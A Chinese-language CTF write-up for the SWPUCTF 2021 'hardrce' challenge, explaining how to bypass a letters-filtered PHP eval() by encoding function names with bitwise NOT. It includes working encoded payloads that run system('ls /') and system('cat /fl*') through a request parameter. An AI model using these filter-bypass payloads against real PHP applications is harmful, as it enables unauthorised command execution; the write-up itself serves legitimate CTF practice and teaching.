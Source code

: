 ```yaml
---
date: 2024-05-25
categories: 
    - SWPUCTF
tags:
    - CTF
    - RCE
    - PHP
    - 无字母RCE
---
```


# 每日一题 —— [SWPUCTF 2021 新生赛]hardrce

> 题目地址：<https://www.nssctf.cn/problem/439>

<!-- more -->

观察到本题有函数 `eval()` 并通过 `wllm` 传参，并过滤了所有的字母以及一部分符号，可知这道题是无字母 RCE。通过查询 RCE bypass, 可以知道对于这种情况，有自增、异或、取反三种不同的绕过方式，所用的符号分别为：`+` `^` `~`。前两个被过滤了，但是取反符号没有被过滤。

我们直接利用 PHP 来生成一个取反的 payload：

```php
<?php
echo urlencode(~'phpinfo');
```

得到：`%8F%97%8F%96%91%99%90`; 

而对于 `eval()` 函数而言，似乎不允许自反时把函数括号给处理，因此 payload格式为： `(~%8F%97%8F%96%91%99%90)();`。 

现在开始构造 payload : `system('ls /')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`

找到根目录下 `/flllllaaaaaaggggggg` 文件，打开它 `system('cat /fl*')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);`

赋值给 `wllm`，得到 flag.